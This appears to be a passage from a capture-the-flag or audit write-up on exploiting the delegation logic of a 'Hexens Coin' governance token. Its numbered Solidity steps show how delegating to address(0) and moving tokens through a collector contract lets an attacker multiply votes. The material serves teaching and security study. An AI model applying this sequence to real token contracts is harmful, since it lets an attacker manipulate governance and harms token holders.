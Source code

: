 1. The malicious user calls the `delegate()` `external` function and specifies the "collector" contract as their delegatee. All of their **votes** are transferred TO the "collector" contract.

    ```solidity
    {
        hexensCoin.delegate(address(voteCollector));
        ...
    }
    ```

2. The malicious user transfers all of their **Hexens Coins** TO the "collector" contract so that it stores their **Hexens Coins**, whilst their local balance of **Hexens Coins** == `0`.
    ```solidity
    {
        hexensCoin.delegate(address(voteCollector));
        
        hexensCoin.transfer(address(voteCollector), setup.HEXENS_COINS());
        ...
    }
    ```

3. The malicious user calls the `delegate()` `external` function and specifies the `address(0)` as the address of their new delegatee:
    - `_delegate()` sets the `address(0)` as the new user's delegatee.
    - `_moveDelegates()` does not do anything, since the delegator's balance of **Hexens Coins** == `0`.

    ```solidity
    {
        hexensCoin.delegate(address(voteCollector));
        
        hexensCoin.transfer(address(voteCollector), setup.HEXENS_COINS());
        hexensCoin.delegate(address(0));
        ...
    }
    ```

4. The malicious user transfers back all of their **Hexens Coins** FROM the "collector" contract.

    ```solidity
    {
        hexensCoin.delegate(address(voteCollector));
        
        hexensCoin.transfer(address(voteCollector), setup.HEXENS_COINS());
        hexensCoin.delegate(address(0));
        
        hexensCoin.transferFrom(
            address(voteCollector),
            address(this),
            setup.HEXENS_COINS()
        );
    }

5. The next time the malicious user calls the `delegate()` `external` function and specifies an address of the "collector" contract controlled by them as their delegatee:
    - `_delegate()` sets the "collector" contract as the new user's delegatee.
    - `_moveDelegates()` does NOT **subtract** **votes** FROM the _previous_ delegatee, since its address == `address(0)`, but **adds** **votes** TO the _new_ delegatee, the "collector" contract.

